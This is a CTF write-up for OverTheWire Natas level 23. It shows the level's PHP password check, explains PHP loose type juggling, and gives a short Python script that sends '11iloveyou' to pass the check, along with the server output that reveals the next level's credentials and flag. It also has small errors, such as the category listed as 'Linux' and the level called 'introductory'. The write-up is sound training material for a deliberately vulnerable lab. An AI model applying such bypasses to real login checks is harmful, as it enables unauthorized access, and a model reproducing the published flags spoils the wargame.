# CTF Writeup - **OverTheWire Natas22- Natas23**

**Author**: spiketyson 

---

## Challenge Details

- **Challenge Name:** Natas22 - Natas23
- **Category:** Linux
- **Difficulty Level:** Easy
- **Date:** 24-12-2024

---

## Summary

This challenge is the introductory level for the Natas series on OverTheWire, focusing on web exploitation. The goal is to find the flag that is hidden web server using burpsuite if possible.

---

## Approach

Since this is an basic challenge, I planned to use python to find the flag using type juggling.

---

## Solution Walkthrough

Connecting to the web server using:

```bash
Username: natas23
Password: dIUQcI3uSus1JEOSSWRAEXBG8KbR8tRs
URL:      http://natas23.natas.labs.overthewire.org
```

After logging in, we can see that the webpage asks for a password. As we dont know anything about it lets try some random passwords. 

```bash
Password: abc
# Wrong!
Password: natas
# Wrong!
```

So, It will print the credentials of the next level if we input the correct password. Lets view the logic behind the password check in the source code.

```bash

<?php
    if(array_key_exists("passwd",$_REQUEST)){
        if(strstr($_REQUEST["passwd"],"iloveyou") && ($_REQUEST["passwd"] > 10 )){
            echo "<br>The credentials for the next level are:<br>";
            echo "<pre>Username: natas24 Password: <censored></pre>";
        }
        else{
            echo "<br>Wrong!<br>";
        }
    }
    // morla / 10111
?>  
```

We can see that this php code checks if the request contains the `passwd` parameter if it exists, then it gets the first occcurence of the `iloveyou` from the password and then checks if the `passwd` is greater than `10`. If both of them true it prints the credentials. But this is contradicting right as the passwd need to be both a integer to satisfy the second condition and the a string to satisfy the first condition. This is interesting due to the properties of the php. php considers the type of a variable on the go based on the operation that is performed. For example. `$var = 10` is interger, `$var = "abc"` is string, `$var = "11abc"` is also string. When a string is compared to a number, PHP tries to interpret the string as a numeric value. If the string starts with numeric characters, PHP extracts those numbers and uses them for the comparison. Any non-numeric characters at the end are ignored. If $var > 10 is checked when $var = "11abc" then it will produce true as the $var will take the value of `11` that is greater than `10`. With this information we know that the request is looking for a value greater than `10` as well as `iloveyou` should be present. Lets try sending `11iloveyou` to break the system as shown below in the python code.


```bash
import requests

target = 'http://natas23.natas.labs.overthewire.org?passwd=11iloveyou'
auth = ('natas23','dIUQcI3uSus1JEOSSWRAEXBG8KbR8tRs')

session = requests.Session()

r = session.get(target, auth=auth)
print(r.text)
```

The above script creates a session first with a request. It sends the `passwd` parameter using url and sendsa get request. The php code will find `iloveyou` to be present in the string and for the numeric comparison it will extract `11` out of the string. So both the conditions will be true. This will print the credentials for next level. 

```bash
# <html>
# <head>
# <!-- This stuff in the header has nothing to do with the level -->
# <link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
# <link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
# <link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
# <script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
# <script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
# <script src="http://natas.labs.overthewire.org/js/wechall-data.js"></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>     
# <script>var wechallinfo = { "level": "natas23", "pass": "dIUQcI3uSus1JEOSSWRAEXBG8KbR8tRs" };</script></head>
# <body>
# <h1>natas23</h1>
# <div id="content">

# Password:
# <form name="input" method="get">
#     <input type="text" name="passwd" size=20>
#     <input type="submit" value="Login">
# </form>

# <br>The credentials for the next level are:<br><pre>Username: natas24 Password: MeuqmfJ8DDKuTr5pcvzFKSwlxedZYEWd</pre>
# <div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
# </div>
# </body>
# </html>
```


## Flag

**Flag:** MeuqmfJ8DDKuTr5pcvzFKSwlxedZYEWd


---

## Lessons Learned

It was a simple challenge. I was not able to figure out the logic, but i understood the concept easily. I was able to solve it.